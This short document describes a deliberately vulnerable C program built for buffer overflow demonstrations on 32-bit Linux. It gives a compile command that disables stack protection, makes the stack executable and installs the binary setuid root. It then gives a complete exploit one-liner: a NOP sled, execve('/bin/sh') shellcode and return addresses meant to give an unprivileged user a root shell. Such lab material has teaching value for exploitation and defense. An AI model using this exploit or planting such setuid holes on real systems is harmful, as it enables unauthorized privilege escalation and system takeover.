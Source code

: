 Vulnerable c program allowing buffer overflow attacks on Linux x86 intel systems

Run following command from root to compile the vulnerable program:
gcc -m32 -mpreferred-stack-boundary=3 -fno-stack-protector -z execstack -o big big.c && clear && chmod u+s big && mv big /usr/bin

Example command to run from non-privileged user toget shell with root privileges:
big `perl -e 'print "\x90"x199 . "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" . "\xbc\xd3\xff\xff" x 39'`
